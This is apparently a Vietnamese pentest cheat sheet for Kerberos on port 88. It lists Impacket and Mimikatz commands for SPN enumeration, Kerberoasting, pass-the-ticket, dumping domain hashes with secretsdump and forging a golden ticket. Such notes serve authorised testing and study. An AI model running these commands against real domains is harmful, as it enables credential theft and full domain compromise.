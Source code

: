 # Kerberos (Port 88)

## Enumeration

### Liệt kê Service Principal Names

Sử dụng GetUserSPNs.py từ Impacket để lấy thông tin SPN và tên người dùng hợp lệ:

```
python GetUserSPNs.py -request -dc-ip <ip> <domain>/<user>
```

***

## Attack Vectors

### Pass the Ticket

Sử dụng ticket Kerberos hợp lệ để xác thực bằng cách tiêm vào bộ nhớ với Mimikatz:

```
mimikatz "kerberos::ptt <ticket.kirbi>"
```

### Kerberoasting

Yêu cầu ticket dịch vụ từ tài khoản có SPN để bẻ khóa ngoại tuyến:

```
python GetUserSPNs.py -request -dc-ip <ip> <domain>/<user>
```

***

## Post-Exploitation

### Secret Dump

Trích xuất ticket, hàm băm và dữ liệu quan trọng từ hệ thống bằng secretsdump.py:

```
python secretsdump.py -just-dc <domain>/<user>:<password>@<ip>
```

### Golden Ticket Attack

Tạo ticket vàng để truy cập không giới hạn vào domain:

{% code overflow="wrap" %}

```
mimikatz "kerberos::golden /user:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> /id:500"
```

{% endcode %}